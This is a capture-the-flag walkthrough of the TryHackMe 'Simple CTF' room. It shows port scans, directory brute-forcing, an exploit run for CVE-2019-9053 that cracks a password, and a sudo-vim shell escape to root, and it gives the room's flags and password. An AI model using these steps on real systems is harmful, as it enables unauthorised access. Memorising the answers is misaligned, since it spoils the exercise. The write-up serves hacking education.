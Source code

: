 ```yaml
---
description: 'https://tryhackme.com/room/easyctf'
---
```


# Simple CTF

## INIT

```text
export easyctf=10.10.150.200
ping $easyctf

echo "10.10.150.200 easyctf.thm" >> /etc/hosts
```

## How many services are running under port 1000?

```text
nmap -T5 -p1-1000 easyctf.thm
```

![](../.gitbook/assets/image%20%28416%29.png)

{% hint style="success" %}
2
{% endhint %}

## What is running on the higher port?

```text
nmap -sC -sV -T5 -p1-65535 easyctf.thm
```

![](../.gitbook/assets/image%20%28390%29.png)

{% hint style="success" %}
ssh
{% endhint %}

## FTP

![](../.gitbook/assets/image%20%28435%29.png)

## HTTP

![](../.gitbook/assets/image%20%28432%29.png)

## GOBUSTER

```text
gobuster dir -u easyctf.thm -w /usr/share/wordlists/dirb/common.txt -q -t 15 -x php,html,txt
```

![](../.gitbook/assets/image%20%28417%29.png)

![](../.gitbook/assets/image%20%28437%29.png)

> CMS Made Simple 2.2.8

## What's the CVE you're using against the application?

![](../.gitbook/assets/image%20%28428%29.png)

![](../.gitbook/assets/image%20%28401%29.png)

{% hint style="success" %}
CVE-2019-9053
{% endhint %}

## To what kind of vulnerability is the application vulnerable?

![](../.gitbook/assets/image%20%28404%29.png)

{% hint style="success" %}
sqli
{% endhint %}

## What's the password?

```text
python3 easyctf.py -u http://easyctf.thm/simple --crack -wordlist /usr/share/wordlists/rockyou.txt
```

![](../.gitbook/assets/image%20%28427%29.png)

{% hint style="success" %}
secret
{% endhint %}

## Where can you login with the details obtained?

![](../.gitbook/assets/image%20%28392%29.png)

{% hint style="success" %}
ssh
{% endhint %}

## What's the user flag?

![](../.gitbook/assets/image%20%28379%29.png)

{% hint style="success" %}
G00d j0b, keep up!
{% endhint %}

## Is there any other user in the home directory? What's its name?

![](../.gitbook/assets/image%20%28381%29.png)

{% hint style="success" %}
sunbath
{% endhint %}

## What can you leverage to spawn a privileged shell?

```text
sudo vim -c ':!/bin/sh'
```

{% embed url="https://gtfobins.github.io/gtfobins/vim/" %}

{% hint style="success" %}
vim
{% endhint %}

## What's the root flag?

```text
cat /root/root.txt
```

{% hint style="success" %}
W3ll d0n3. You made it!
{% endhint %}

